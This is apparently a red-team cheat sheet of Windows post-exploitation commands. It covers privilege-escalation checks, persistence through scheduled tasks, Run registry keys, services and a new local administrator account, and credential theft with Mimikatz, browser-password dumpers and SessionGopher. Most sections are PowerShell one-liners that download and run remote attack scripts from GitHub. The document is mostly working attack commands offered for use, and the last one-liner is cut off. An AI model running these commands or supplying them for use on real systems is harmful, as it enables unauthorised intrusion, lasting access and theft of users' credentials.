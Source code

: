 # PowerUp
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```

# SharpUp
`
https://github.com/GhostPack/SharpUp
`

# Sherlock
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')

Find-AllVulns
`

# Watson
`
https://github.com/rasta-mouse/Watson
`

# Create new task
`
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"

schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"
`

# Add User
`
net user testuser P@ssw0rd /add

net localgroup administrators testuser /add
`

# Create Service
`
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"
`

# Registry Keys
`
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"

REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
`

# StartUp Folder (Run(shell:startup))
`
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
`

# Memory Dump
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/hassan0x/test/master/mim.ps1')

Invoke-Mimikatz -Command 'privilege::debug'

Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
`
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Screen1.png?raw=true)

# Windows Credentials Manager
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')

Invoke-WCMDump
`

# Web Credentials Manager
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')

Get-WebCredentials
`

# Chrome Passwords
`
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe
`

# Chrome History
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')

Get-ChromeDump > chromepwds.txt
`

# Other Saved Credentials
`
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')

Invoke-SessionGopher -Thorough
`
